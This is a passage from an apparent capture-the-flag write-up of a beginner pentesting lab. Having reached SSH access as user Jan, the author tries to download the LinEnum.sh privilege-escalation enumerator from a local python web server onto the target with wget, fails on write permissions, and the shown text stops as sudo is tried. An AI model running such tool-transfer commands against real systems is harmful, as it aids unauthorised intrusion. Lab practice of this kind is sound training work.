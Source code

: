 > SSH

![Jan SSH](../../../static/writeupimgs/basicpentest/janSSH.png)

Now that `Jan`'s account is accessible, I do not want to be `Jan` anymore, I want to be root. At this point there are numerous of avenues that we can attempt to escalate our privileges so lets find one, actually lets find all of them with [LinEnum.sh](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh). Just got to get it from my local machine to the victim machine using a python server using `python3 -m http.server <port>` in the directory `LinEnum.sh` is located in and using `wget http://<localip>:<port>/LinEnum.sh` from `Jan`'s account.

Simple as... wait, something is not quite right

![LinEnum Write Fail](../../../static/writeupimgs/basicpentest/LinEnumFail.png)

I think I just successfully failed here... hmmm....

![No Priv Jan](../../../static/writeupimgs/basicpentest/noPrivJan.png)

They must not trust this `Jan` person very much. I doubt they would even be a sudo user, but let's try:

